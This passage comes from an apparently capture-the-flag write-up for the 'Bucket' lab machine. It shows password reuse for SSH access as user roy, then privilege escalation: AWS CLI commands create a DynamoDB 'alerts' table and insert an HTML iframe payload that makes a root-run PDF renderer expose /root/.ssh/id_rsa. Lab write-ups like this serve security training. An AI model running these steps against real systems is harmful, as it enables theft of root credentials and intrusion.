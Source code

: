 ## Lateral Movement using www-data

With access to the host, I decided to see if any users on the machine had shell access rights assigned to them. In order to do this, I opened the `/etc/passwd` file which showed that the `roy` user had shell access rights to the host. I tried SSH'ing into the server using `Roy` and the previously identified passwords, the password for the sysadm user: `n2vM-<_K_Q:.Aa2` worked!

<p class="imgMiddle">
<img src="/assets/img/ChallengeVMs/Bucket/img9.png"  style="width: 80%" />
</p>

## Privilege Escalation using Roy

After going through some basic enumeration with linpeas, I saw that there were several active ports that were not included within the nmap scan, including port 8000. Additionally, it seemed that the `/var/www/bucket-app/` directory was owned by root but it was readable by the `roy` user based on extended attributes. Navigating to the main page and opening the `index.php` file provided me with the following PHP code:

<details></details>

This code seemed to rely on a table `alerts` and simply put the contents of the query's output into a PDF file using **Pd4Cmd**, however it was running this as root. In order to exploit this, I initially needed to create a DynamoDB table named **alerts**. The following AWS documentation provided useful information on how to create new tables: <https://docs.aws.amazon.com/cli/latest/userguide/cli-services-dynamodb.html>. Using the documentation as reference, I created the **alerts** table as follows:
* Table Name: alerts
* Attributes: title & data
* Attribute Type: String (S)

```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S \
    --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE \
    --provisioned-throughput ReadCapacityUnits=10,WriteCapacityUnits=5
```

With the table created, I needed to place an item onto the host by creating a new entry. The entry would specifically need:
* Table Name: alerts
* Title with Keyword: Ransomware
* Data: File to retrieve

```bash
aws dynamodb put-item \
    --table-name alerts \
    --item '{
        "title": {"S": "Ransomware"},
        "data": {"S": "<html><head></head><body><iframe src='/root/.ssh/id_rsa'></iframe></body></html>"}
      }' \
    --return-consumed-capacity TOTAL --endpoint-url http://s3.bucket.htb
```
